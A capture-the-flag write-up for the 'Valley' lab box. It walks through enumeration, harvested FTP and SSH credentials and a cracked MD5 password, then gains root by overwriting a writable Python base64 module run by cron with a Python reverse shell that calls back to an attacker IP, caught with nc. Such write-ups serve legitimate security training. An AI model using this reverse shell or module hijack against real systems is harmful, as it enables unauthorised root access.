







<br>

**This box is marked as 'Easy.' From the start we found some useful information to log in to the login page, and that same information can be reused to access the FTP service. From there, we obtained some PCAP files that were also captured by the SIEM. After investigating the PCAP files, we discovered a POST request with a Content-Type: application/x-www-form-urlencoded. Below that, we found hidden credentials for SSH login, which gave us our initial access.**

**While examining the valleyDev user, I found a binary file. After reversing it in Binary Ninja, I discovered an embedded MD5 hash that was easy to crack. I also noticed a misconfigured Python module that we can exploit to escalate privileges and get root access.. So, let's dive in and get started! :)** 
<br>

## Debugging contents
```bash
$ curl -v 10.10.74.209
*   Trying 10.10.74.209:80...
* Connected to 10.10.74.209 (10.10.74.209) port 80
> GET / HTTP/1.1
> Host: 10.10.74.209
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: redacted
< Server: Apache/2.4.41 (Ubuntu)
< Last-Modified: Tue, 07 Mar 2023 23:11:16 GMT
< ETag: "48b-5f6578751d51c"
< Accept-Ranges: bytes
< Content-Length: 1163
< Vary: Accept-Encoding
< Content-Type: text/html
< 
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="styles.css">

</head>

<CENTER>
<h1>Valley Photo Co.</h1>
<body>
 

				
				<CENTER>
				<div>
				
				<p><strong>Allow Valley Photo Co. to introduce itself. We are the premire photography company to capture the perfect moments. </strong> We offer a number of samples of our previous work in a gallery which can be seen below</p>
                                
				<button onclick="window.location.href = 'gallery/gallery.html';"> View Gallery </button>
				
				<h2>We capture memories to forever hold</h2>

				<ol>
				   <li>We use top of the line equipment used by the professionals all around the globe.</li>
				   <li>Quality is of the utmost importance so if you aren't satisfied then it free.</li>
				</ol>

				<h2>We offer the lowest prices for the highest quality</h2>
                                <button onclick="window.location.href = 'pricing/pricing.html';"> View Pricing </button>

				<h3>Memory enhanced through photography.</h3>
				</div>
				</CENTER>
<H4>Copyright 2001, by
<A HREF="/index.html">Valley Photo Co.</A>
</H4>
</CENTER>
<script src="/js/art.js"></script>
</body>
 ```

## Nmap enumeration
```bash
$ nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- 10.10.74.209 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.74.209 -oN tcp.txt  

Host is up (0.24s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3

Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```


## Directories
```bash
$ feroxbuster -u http://valley.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt -A --scan-dir-listings      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://valley.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 💢  Status Code Filters   │ [402, 403, 401, 400]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ferox.txt
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4


200      GET       38l      129w     1163c http://valley.thm/index.html
200      GET       32l       61w      924c http://valley.thm/pricing/pricing.html
200      GET      140l      394w     3940c http://valley.thm/gallery/gallery.html
200      GET       52l      106w      945c http://valley.thm/styles.css
200      GET       38l      129w     1163c http://valley.thm/
200      GET        3l       10w       57c http://valley.thm/pricing/note.txt
200      GET       17l       70w     1137c http://valley.thm/pricing/
200      GET       16l       58w      943c http://valley.thm/gallery/
301      GET        9l       28w      310c http://valley.thm/gallery => http://valley.thm/gallery/
301      GET        9l       28w      310c http://valley.thm/pricing => http://valley.thm/pricing/
301      GET        9l       28w      309c http://valley.thm/static => http://valley.thm/static/
200      GET        5l       19w      127c http://valley.thm/static/00
200      GET        0l        0w  2275927c http://valley.thm/static/10
200      GET        0l        0w  2473315c http://valley.thm/static/1
200      GET        0l        0w  2203486c http://valley.thm/static/12
200      GET        0l        0w  3673497c http://valley.thm/static/13
200      GET        0l        0w  3838999c http://valley.thm/static/14
200      GET        0l        0w  2468462c http://valley.thm/static/16
200      GET        0l        0w  3551807c http://valley.thm/static/17
200      GET        0l        0w  3627113c http://valley.thm/static/2
200      GET        0l        0w  7389635c http://valley.thm/static/4
200      GET        0l        0w  1426557c http://valley.thm/static/5
200      GET        0l        0w  2115495c http://valley.thm/static/6
200      GET        0l        0w  5217844c http://valley.thm/static/7
200      GET        0l        0w  7919631c http://valley.thm/static/8
200      GET        0l        0w  1190575c http://valley.thm/static/9
```


## Found another subdir


## Login page
> user creds



## Grab static files
> save into: grabber.sh
```bash
#!/bin/bash

# Base URL for the files
base_url="http://valley.thm/static/"

# Loop through numbers 00 to 20
for i in $(seq -f "%02g" 0 20); do
    url="${base_url}${i}"

    # Check if the URL returns a 200 OK response
    http_response=$(curl -s -o /dev/null -w "%{http_code}" "$url")

    if [ "$http_response" -eq 200 ]; then
        echo "URL $url returned 200. Downloading file..."
        
        # Download file
        curl -O "$url"
    else
        echo "URL $url did not return 200 (HTTP response: $http_response). Skipping..."
    fi
done
```




## FTP creds 
```bash
$ ftp valley.thm 37370
Connected to valley.thm.
220 (vsFTPd 3.0.3)
Name (valley.thm:kali): siemDev
331 Please specify the password.
Password: 
230 Login successful.

Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||54878|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.

# grab files
ftp> mget *
mget siemFTP.pcapng [anpqy?]? anpqy
Prompting off for duration of mget.
229 Entering Extended Passive Mode (|||50983|)
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |*****************************************************************************************************************************************|  7272       85.60 KiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:00 (18.07 KiB/s)
229 Entering Extended Passive Mode (|||64458|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |*****************************************************************************************************************************************|  1932 KiB  193.03 KiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:10 (187.33 KiB/s)
229 Entering Extended Passive Mode (|||35787|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |*****************************************************************************************************************************************|  1926 KiB  194.82 KiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:10 (188.98 KiB/s)
ftp> 
```

## Investigating pcap files

## SSH creds 
```bash
$ ssh valleyDev@valley.thm 
The authenticity of host 'valley.thm (10.10.193.145)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'valley.thm' (ED25519) to the list of known hosts.
valleyDev@valley.thm's password: 
...
...

valleyDev@valley:~$ 

```

## User flag
```bash
THM{k@l1_redacted_v@lley}

```
## Reverse Engineering 
I don’t know why the user is using an authenticator and putting is his home directory, because in real life, that seems unlikely to happen. But since this is just a challenge, the creator of the box probably put it there on purpose. Let’s reverse it and see if we can find something useful.

```bash
valleyDev@valley:/home$ ls
siemDev  valley  valleyAuthenticator  valleyDev

valleyDev@valley:/home$ ls -al
total 752
drwxr-xr-x  5 root      root        4096 Mar  6  2023 .
drwxr-xr-x 21 root      root        4096 Mar  6  2023 ..
drwxr-x---  4 siemDev   siemDev     4096 Mar 20  2023 siemDev
drwxr-x--- 16 valley    valley      4096 Mar 20  2023 valley
-rwxrwxr-x  1 valley    valley    749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 valleyDev valleyDev   4096 Mar 13  2023 valleyDev

valleyDev@valley:/home$ ./valleyAuthenticator 
Welcome to Valley Inc. Authenticator
What is your username: test
What is your password: test123 
Wrong Password or Username

valleyDev@valley:/home$ 

```
## Structure information


## Decompress ELF
> After disassembling the binary file, I discovered that the executable was packed and compressed. So, I decided to decompress it using UPX.


## Lateral Movement 

```bash
md5 hash username - "dd2921cc76ee3abfd2beb60709056cfb"
username = valley  
md5 hash password - "e6722920bab2326f8217e4bf6b1b58ac"
password = liberty123
```


## Cronsjobs (module hijacking
I didn't find anything useful in the LinPEAS results, so I decided to check the cron jobs instead. Here's what I found: there's a script that imports the base64 module, and the permissions on the base64 file allow read, write, and execute. I think we might be able to insert a reverse shell because photoEncrypt.py imports the module, and the script runs every few seconds as part of a cron job.


# Privilege escalation
## module hijacking 
```bash
valley@valley:~$ find / -type f -perm -775 -exec ls -al {} \; 2>/dev/null

-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```
## Python3 reverse shell
> root.py 
```py
#!/usr/bin/env python3 
# gaining root

import os
import socket
import pty
import time

RHOST = "10.23.42.147"
RPORT = 443

s = socket.socket()
s.connect((RHOST, RPORT))

for fd in (0, 1, 2):
    os.dup2(s.fileno(), fd)

pty.spawn("/bin/bash")
time.sleep(3)
s.close()

```
## Modify base64.py
> When I checked `base64.py`, it had a bunch of code inside, so I decided to clear it out first and then insert our Python reverse shell.
```bash
# empty file
valley@valley:~$ cat /dev/null > base64.py 

# without touching file
valley@valley:~$ cat /tmp/root.py >> /usr/lib/python3.8/base64.py
``` 
```bash
# In another terminal on Kali Linux, you can intercept the connection between the client (Kali) and the server (Valley) to see if there's any response back.
$ sudo tcpdump -i tun0 
```

```bash
$ sudo rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.168.106] 33010

root@valley:~# id

uid=0(root) gid=0(root) groups=0(root)


```
